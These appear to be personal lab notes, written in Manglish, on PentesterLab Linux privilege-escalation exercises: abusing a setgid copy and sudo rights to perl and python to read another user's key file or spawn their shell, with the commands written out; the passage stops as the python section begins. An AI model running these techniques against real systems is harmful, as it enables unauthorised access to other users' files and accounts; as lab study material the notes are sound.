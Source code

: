 ->`sudo -u victim cp bbar josu`
-->so ingane namal chyumbol victim user vechan copy chyunath apol permision um owner oke marum
-->ini onudi permission set chyam
->`sudo -u victim chmod +xs josu`       so athum aayi.NOTE: ithoke sudo -u victim vech venam chyam.allathe namude account vech chyaruth
-->ini namuk josu run chyam :
->./josu          //1340b7d2-76ce-49c0-9343-11cdf223b572
-->so key kiti
-->REMEMBER -> namal ivide setgid um permission aayi koduthu.karanam namal /home il poi ->ls -la adichal kanam :
```
drwxr-x--- 2 root victim 4096 Nov 20 06:30 victim
```
-->ivide nokiyal kanam victim inte pathilek pokenengil onnengil namal root ayirikanam allengi victim group il ulla aalayirikanam.root ayit namuk keran patunila.so namal victim group il ulla oralayi mari angane aan naaml ee exploit chythath ok.so setgid aan ithile main. athukondan heading setgid enn ittathum ok.

# 31 - sudo -l (perl)
-->so lab open chyuka.enit ->sudo -l adikuka :
```
User pentesterlab may run the following commands on 5ce2e393e89c: 
	(victim) /usr/bin/perl
```
-->so namuk victim aayi perl use chyam.
-->ivide munnethe pole thane rand reethiyil chyam.onnil perl vech thane direct aa key.txt file output chyam
-->allengil perl vech shell spawn chyth chyam
```
sudo -u victim perl -e 'print `cat /home/victim/key.txt`'
```
ithan command.ingane chyumbol namuk direct key ktunund.
-->NOTE namal -e kk shesham sing qoute thane idan padullu.allathe double qoute ittal aadyam aa cat command run chyum apol permisiion denied enn kanikum ok
-->in randamathe reethi nokam- spawning shell
```
sudo -u victim perl -e '`/bin/bash`'
```
-->ipol namuk shell access kiti.but athil enth type chythalum onum kanila.->ls adichalum onum kanila
-->so namuk ee /home/victim/key.txt  /tmp folder il kondpoi idam./tmp ellarkum use aaklo
```
victim@5ce2e393e89c:/tmp$ cp /home/victim/key.txt /tmp/josu.txt
```
-->ipol /tmp il josu.txt il ee key.txt aayi kidakunund.but ithipo victim aakiya file aan josu.txt.so vere aarkum nokan patila.so namal ellarkum permission kodukanam.enite victim user il nin purathirangan padulu
```
victim@5ce2e393e89c:/tmp$ chmod 777 /tmp/josuu.txt
```
-->ini ->exit adich purathiranguk enit /tmp il poi ->cat josu.txt adichal key kitum ok

# 32 - sudo -l (python)
-->lab open chyuka enit ->sudo -l   adikumbol :
```
User pentesterlab may run the following commands on 761ba1b282fc: 
	(victim) /usr/bin/python
```
->sudo -u victim python
-->so ivide namuk python REPL kitum.so avide namuk python script oke chyan patum.so avide aan namal exploit chyunath
-->rand reethiyil chyam.onn os import chyth chyam
```
>>>import os
```